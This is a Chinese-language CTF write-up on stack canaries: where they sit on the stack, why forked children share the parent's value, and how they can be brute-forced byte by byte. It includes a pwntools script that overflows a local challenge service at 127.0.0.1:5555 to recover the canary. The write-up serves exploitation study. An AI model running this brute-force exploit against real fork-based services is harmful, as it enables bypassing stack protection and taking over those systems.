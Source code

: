 ## 1.知识摘要

stack cannaries用来保护栈溢出。其位置在返回地址之前。

32位                         
|cannray (4字节)|         
|---|
|ebp|
|return_address|

64位                         
|cannray (8字节)|         
|---|
|ebp|
|return_address|

![./photo/1.png](./photo/1.png)


## canary爆破
1. 对于canary来说，每次进程重启后canary都不同，但对于同一进程中的不同线程canary是相同的。比如fork出的线程，因为fork会直接拷贝父进程的内存。
2. 对于32位程序来说，canary是gs:0x14 ,64位的canary是fs:0x28。这个canary值来自于线程局部存储（thread local Storage,TLS）。
3. canary的最低位为0x00。主要是用于截断。假如栈上的字符串被泄露，则会把canary值也会泄露出来，但首位为0x00截断，则可以防止泄露。
4. 可以对canary逐字节爆破。因为只是去逐位去覆盖匹配canary。如果正确则不会有信息出现，如果错误则会崩溃报错。
## 题目描述
![./photo/2.jpg](./photo/2.jpg)
程序开启了canary.
![./photo/3.jpg](./photo/3.jpg)
![./photo/4.jpg](./photo/4.jpg)
查看while，跳出循环的依据是fork的返回值。fork的返回值有三种情况。
- 负值，出现错误。
- 0。 是在子进程中。
- 新创建的子进程的id。 在父进程中。
当返回值为0,即在子进程中跳出循环。查看sub_400bBE9函数。
![./photo/5.jpg](./photo/5.jpg)
明显的栈溢出
![./photo/6.jpg](./photo/6.jpg)
所以可以尝试去爆破canary值，因为目前所在的是子进程，子进程崩溃是不会影响到主进程的。
```
from pwn import *
import time
time = 8
canary = '\x00'
print(len(canary))
result =[]
while len(canary)<8:
    for i in range(256):
        io = remote('127.0.0.1',5555)
        io.recv()
        
        payload = 'a'*104+canary+chr(i)
        print(payload)
        io.send(payload)
        try:
            io.recv()
            canary += chr(i)
            print(canary, i)
            result.append(i)
            break
        except:
            continue
        finally:
            io.close()
print(result)
print("canary is",canary)
```
![./photo/7.png](./photo/7.png)
